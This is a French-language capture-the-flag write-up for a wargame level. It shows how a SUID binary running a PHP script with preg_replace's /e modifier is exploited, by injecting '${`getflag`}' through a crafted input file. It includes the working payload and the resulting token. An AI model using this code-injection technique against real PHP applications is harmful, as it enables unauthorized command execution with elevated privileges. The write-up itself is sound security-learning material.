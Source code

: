 ﻿```bash
$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

On a deux fichiers, `level06` et `level06.php`. Le premier est un exécutable avec le bit SUID activé, et le second est un script PHP.

```bash
$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

Le script PHP est exécuté par le binaire `level06`, et il semble qu'il y ait un problème avec la fonction `file_get_contents()`.

```bash
$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

Le script php un peu mieux formaté:

```bash
#!/usr/bin/php
<?php
// Remplace les '.' par ' x ' et les '@' par ' y'
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}

// Lit le contenu du fichier passé en paramètre, remplace les '[x ...]' par 'y(...)', les '[' par '(' et les ']' par ')'
function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}

// Ca on connait
$r = x($argv[1], $argv[2]);
print $r;
?>
```

En creusant un peu je remarque le `/e` dans la fonction `preg_replace()`. (bien evidemment ca n'existe plus dans les versions recentes de PHP)
Cela signifie que le second argument est évalué comme du code PHP. Cela signifie que si on arrive à injecter du code PHP dans le fichier passé en paramètre, on pourra l'exécuter.

Je concocte donc un fichier qui exécute `getflag` en PHP en l'entourant de `[x ...]` pour que le script le remplace par `y(...)`, et je l'exécute.

```bash
$ echo '[x ${`getflag`}]' > /tmp/flag06
$ ./level06 /tmp/flag06
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

Et voila :)